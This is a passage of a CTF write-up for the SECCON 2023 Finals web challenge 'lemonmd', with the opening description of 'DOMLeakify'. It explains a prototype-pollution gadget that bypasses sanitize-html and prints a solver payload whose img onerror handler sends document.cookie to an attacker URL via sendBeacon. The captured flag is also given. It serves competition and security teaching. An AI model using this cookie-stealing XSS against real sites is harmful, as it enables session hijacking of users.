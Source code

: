 My solution used a known PP gadget for sanitize-html:

- `({})["*"]` -> `["onerror"]`
    - To allow `onerror` attribute for sanitization and enable XSS attacks.
    - FYI: https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/

There seemed to be teams that polluted `disableHtmlSanitization` as a PP gadget:

- Writeups by icchy from `:(` (This is a team name):
    - https://gist.github.com/icchy/ace0030201354729e0f2beedb362733d

### Solver

Finally, the following Markdown causes XSS and leaks the flag cookie:
```javascript
const text = `<h1 id="__FRSH_STATE">${JSON.stringify({
  v: {
    0: [
      {
        text: {
          _f: "s",
          v: `&lt;img src=0 onerror="navigator.sendBeacon('${ATTACKER_BASE_URL}', document.cookie)"&gt;`,
        },
      },
    ],
    "*": ["onerror"],
  },
  r: [[["*"], ["constructor", "prototype", "*"]]],
})}</h1>`;
```

Here is my full exploit:

- https://github.com/arkark/my-ctf-challenges/tree/main/challenges/202312_SECCON_CTF_2023_Finals/web/lemonmd/solver/

### Flag

```
SECCON{Do_not_m1x_HTML_injecti0n_and_I5lands_Archit3cture}
```

## [web] DOMLeakify

- International: 1 solved / 12
- Domestic: 0 solved / 12
- Source code: https://github.com/arkark/my-ctf-challenges/tree/main/challenges/202312_SECCON_CTF_2023_Finals/web/domleakify

Description:

> NO LEAK, NO LIFE.
>
> - Challenge: `http://domleakify.{int,dom}.seccon.games:3000`
> - Admin bot: `http://domleakify.{int,dom}.seccon.games:1337`
>
> domleakify.tar.gz


[^whitespace-js-flag]: https://store.steampowered.com/app/1628610/